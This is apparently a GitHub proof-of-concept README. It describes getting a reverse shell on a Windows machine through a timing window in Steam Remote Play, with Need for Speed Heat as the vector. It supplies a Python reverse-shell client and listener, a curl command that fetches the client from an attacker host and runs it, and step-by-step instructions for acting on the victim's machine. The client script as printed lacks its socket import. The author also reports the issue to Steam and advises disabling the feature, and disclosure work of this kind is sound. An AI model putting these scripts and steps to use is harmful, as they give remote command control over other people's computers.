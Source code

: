# Steam Remote Play - Reverse Shell

The vulnerability I'm exploring relates to Steam Remote Play. In this particular case, I used the same account, "chibataglini," which is connected to two different machines: the victim's Windows machine and the attacker's Linux machine. For the purposes of this Proof of Concept (POC), I'm conducting it locally for simplicity. The attack vector is the game "Need for Speed Heat." I tested it with other games, but the same effect couldn't be achieved. Hence, I'm using "Need for Speed Heat" as the attack vector. Therefore, it's essential for "Need for Speed Heat" to be downloaded on both machines; otherwise, the attack won't be possible. In a real-world scenario, social engineering would be required to convince the victim to download the game, but that's not within the scope of this POC.

**Prerequisites:**

**Victim's Computer**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Steam application running.
- Python installed (used for the reverse shell). Metasploit can also be used, but it may be detected by antivirus software.

**Attacker's Machine**:
- Steam account connected with the attacker's account (in this test, it's "chibataglini").
- "Need for Speed Heat" game downloaded.
- Python installed.

**Proof of Concept (POC)**

We will start by creating Python server and client scripts to perform the reverse shell. I've attached these scripts; be sure to change the "SERVER_HOST" variable to the attacker's machine's IP. Save these two scripts in a Linux directory.
Code script reverse shell: file **client.py**

```python
import subprocess

SERVER_HOST = "xxx.xxx.xx.xx"
SERVER_PORT = 8080
BUFFER_SIZE = 1024

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))

message = s.recv(BUFFER_SIZE).decode()
print("Server:", message)

while True:
    command = s.recv(BUFFER_SIZE).decode()
    if command.lower() == "exit":
        break
    output = subprocess.getoutput(command)
    s.send(output.encode())
s.close()
```

Open a terminal in the directory where these two files are saved, and run the following command to start a server:

```shell
python3 -m http.server 80
```

This is important because we'll download the "client.py" script on the victim's machine for the reverse shell. Open a new terminal to run our reverse shell server:

```shell
python3 servidor.py
```
file **servidor.py**:
```python
import socket
SERVER_HOST = "0.0.0.0"
SERVER_PORT = 8080
BUFFER_SIZE = 1024
s = socket.socket()


s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")

client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Conectado!")

message = "Conexao estabelecida com sucesso!".encode()
client_socket.send(message)

while True:
    command = input("Digite um comando: ")
    client_socket.send(command.encode())
    if command.lower() == "exit":
        break
    results = client_socket.recv(BUFFER_SIZE).decode()
    print(results)
client_socket.close()
s.close()
```

1. Open the Steam application on the attacker's machine.
2. Open Steam on the Linux machine.
3. Navigate to the "Need for Speed" game.
4. Now comes the critical part where the vulnerability becomes apparent. While the game is loading on the victim's system, we have a small window of time to execute our attack.
5. a-)  Click on the "Connect"
![Connect](img/connect.png)

If he already connects to the victim's machine, do step 6. If he freezes, do step 12. If he logs in and out, do step 6)
6. Click on the "Stream" button (Since I'm Brazilian and use the translated version of Steam, I'm not sure of the exact name of the button in English, but I demonstrate it in the video. I apologize for this detail.).

7. Once the game streaming begins, access to the Windows machine is possible.
   
8. If the Windows machine appears, take advantage of this brief window to open PowerShell (you have approximately 3 to 10 seconds to do this). Use the shortcut "Windows+R," type "powershell.exe," and press Enter.
   
9. With PowerShell open, download the reverse shell file from the attacker's machine using the following command:

```shell
curl http://attacker_ip/client.py -o client.py
```

10. Use the Python command to execute the "client.py" file to perform the reverse shell.

```shell
python3 client.py
```

11. Now, return to the Linux machine, where the terminal with the reverse shell server running will give you access to the Windows machine.
![reverse shell](img/poc_shellreverse.png)

12. **Note:** If the connection is interrupted, it's likely because the game has finished loading on the victim's machine. In this case, you won't be able to run commands on the Windows machine anymore. To continue, stop the game on the Linux machine and repeat steps 5 and 6 to resume from where you left off. The attached video demonstrates this process.
![reverse shell](img/stop.png)

## Video POC: Video showing how to hack the victim's machine.

![reverse shell](img/POC_shellReverse.gif)

## Response from the Steam

However, after reporting this vulnerability, the response from the Steam team was as follows:

![reverse shell](img/report_steam.png)

Therefore, I recommend disabling the Steam Remote Play feature if you do not use it.
I will continue studying this vulnerability for more general cases. As soon as I have new updates, I will post them here.
